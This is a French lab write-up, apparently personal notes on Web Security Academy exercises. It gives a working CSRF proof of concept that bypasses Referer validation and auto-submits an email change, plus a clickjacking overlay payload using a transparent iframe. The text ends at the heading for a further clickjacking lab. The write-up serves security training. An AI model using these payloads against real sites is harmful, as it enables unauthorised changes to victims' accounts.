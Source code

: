 
### CSRF with broken Referer validation

Comme avant, la vérification se base sur le Referer. 

Toutefois, on voit que si l'on rajoute notre autre domaine après un point d'interrogation cela fonctionne. En effet, la vérification se fait juste sur la présence du domaine dans l'URL. Exemple qui marche aussi : 

    Referer: https://arbitrary-incorrect-domain.net?https://0abe00a60466e3cd82431a9500b2001d.web-security-academy.net
    
    
Payload qui rajoute notre domaine dans l'URL : 

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
        <form action="https://0ab200ac045d44df81d4caf700fa007b.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="abcdef&#64;gmail&#46;com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/?0ab200ac045d44df81d4caf700fa007b.web-security-academy.net')
          document.forms[0].submit();
        </script>
      </body>
    </html>

## === Clickjacking ===

### Basic clickjacking with CSRF token protection

    <style>
        iframe {
            position:relative;
            width:700px;
            height: 500px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:300px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe src="0a08004b036b119783fa429300210071.web-security-academy.net/my-account"></iframe>

### Clickjacking with form input data prefilled from a URL parameter
